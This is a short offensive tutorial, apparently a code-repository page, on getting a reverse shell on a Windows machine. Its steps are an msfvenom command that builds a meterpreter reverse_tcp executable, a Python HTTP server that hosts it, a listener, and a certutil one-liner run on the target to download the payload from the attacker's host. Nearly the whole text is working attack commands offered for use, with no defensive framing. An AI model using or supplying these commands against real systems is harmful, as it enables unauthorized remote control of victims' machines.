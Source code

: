 # Create reverse shell from code execution on Windows machine

First, you create reverse shell executable with msfvenom.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o rev.exe
```

Then you'll host your executable with some http server (in this example I'll use python's http.server).

```
sudo python3 -m http.server 80
```

Now you can setup your listener (multi/handler or normal netcat listener).

And lastly from target Windows machine you'll execute certutil.

```
cmd.exe /C certutil -urlcache -split -f http://<LHOST>/rev.exe rev.exe
```

For more: https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
